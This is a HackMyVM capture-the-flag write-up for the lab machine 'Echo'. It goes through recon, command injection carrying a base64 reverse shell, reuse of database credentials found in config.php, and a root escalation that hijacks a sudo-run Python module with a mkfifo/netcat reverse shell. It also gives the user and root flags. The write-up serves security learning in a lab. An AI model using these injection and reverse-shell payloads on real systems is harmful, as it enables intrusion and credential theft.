

# Echo — HackMyVM Writeup

**Platform:** HackMyVM  
**Difficulty:** Easy  
**IP:** 172.20.10.3  

---

## Reconnaissance

```bash
nmap -sV -sC -p- -T4 --min-rate 5000 172.20.10.3
```

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 10.2p1 Ubuntu
80/tcp open  http    Apache httpd 2.4.66
```

`robots.txt` reveals two interesting entries:
```
Disallow: /backups/
Disallow: /config.php
```

---

## Foothold — RCE via Web Application

Navigating to the web app and finding a command injection point. Generating a base64-encoded reverse shell:

```bash
echo 'bash -i >& /dev/tcp/172.20.10.4/4242 0>&1' | base64
# YmFzaCAtaSA+JiAvZGV2L3RjcC8xNzIuMjAuMTAuNC80MjQyIDA+JjEK
```

Sending the payload through the vulnerable parameter:

```
172.20.10.3| echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xNzIuMjAuMTAuNC80MjQyIDA+JjEK | base64 -d | bash
```

```bash
nc -lvnp 4242
```

Shell received as `www-data`. Stabilized with:

```bash
python3 -c 'import pty;pty.spawn("/bin/bash")'
# Ctrl+Z
stty raw -echo; fg
```

---

## Lateral Movement — www-data → clara

Credentials found in `/var/www/html/config.php`:

```php
define('DB_USER', 'clara');
define('DB_PASS', 'EchoSummer2026!');
```

```bash
su clara
# password: EchoSummer2026!
```

User flag:

```bash
cat /home/clara/user.txt
# HMV{7e3a91c4b2d840f6a1e582c39d04b6a8}
```

---

## Privilege Escalation — clara → root

Clara is in the `devs` group, which has write access to `/opt/echo/reporter.py`:

```
-rw-rw-r-- 1 root devs 356 Sep 10 13:19 /opt/echo/reporter.py
```

Checking sudo rights:

```bash
sudo -l
# (ALL : ALL) NOPASSWD: /usr/local/bin/echo-report
```

The binary `/usr/local/bin/echo-report` imports and calls `reporter.run_report()` from `/opt/echo/reporter.py`. Since we can write to that file, we hijack it with a reverse shell payload:

```bash
cat > /opt/echo/reporter.py << 'EOF'
import os
import subprocess

def run_report():
    os.system('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 172.20.10.4 4444 >/tmp/f')
EOF
```

```bash
# On Kali
nc -lvnp 4444

# On target
sudo /usr/local/bin/echo-report
```

```
root@echo:/home/clara# id
uid=0(root) gid=0(root) groups=0(root)
```

Root flag:

```bash
cat /root/root.txt
# HMV{5c1b82e9f403d7a86b2914c03e87d19f}
```

---

## Flags

| Flag | Value |
|------|-------|
| User | `HMV{7e3a91c4b2d840f6a1e582c39d04b6a8}` |
| Root | `HMV{5c1b82e9f403d7a86b2914c03e87d19f}` |
